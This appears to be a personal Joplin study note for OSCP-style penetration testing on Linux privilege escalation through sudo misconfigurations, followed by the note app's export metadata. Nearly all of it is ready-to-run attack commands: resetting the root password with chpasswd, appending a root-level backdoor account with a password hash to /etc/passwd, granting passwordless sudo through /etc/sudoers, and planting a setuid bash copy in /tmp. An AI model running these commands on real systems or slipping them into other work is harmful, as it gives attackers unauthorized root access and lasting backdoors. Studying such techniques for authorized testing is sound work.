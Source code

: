 Sudo Permissions

https://blog.adithyanak.com/oscp-preparation-guide/linux-privilege-escalation/sudo-abuse

Execute the following

> sudo -l

![13ad1bb1d8fab303c042b69d590d4109.png](:/eee68cc68e58408ba6a9b11990ad92b7)

# User Escalation Methods

To manually change the config files to gain higher privileges ( If they are writable)

> echo root:gl0b0 | /usr/sbin/chpasswd

// exploit : exploit (pwd)

> echo "exploit:YZE7YPhZJyUks:0:0:root:/root:/bin/bash" >> /etc/passwd | su - exploit

nano /etc/passwd -> change GID to root

nano /etc/sudoers -> user ALL=(ALL) NOPASSWD:ALL

cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash;

/tmp/rootbash -p

id: 67a7f5b13b7b46029c8bd8206eda21c7
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2022-01-28T08:32:55.707Z
updated_time: 2022-01-28T08:36:32.707Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-28T08:32:55.707Z
user_updated_time: 2022-01-28T08:36:32.707Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1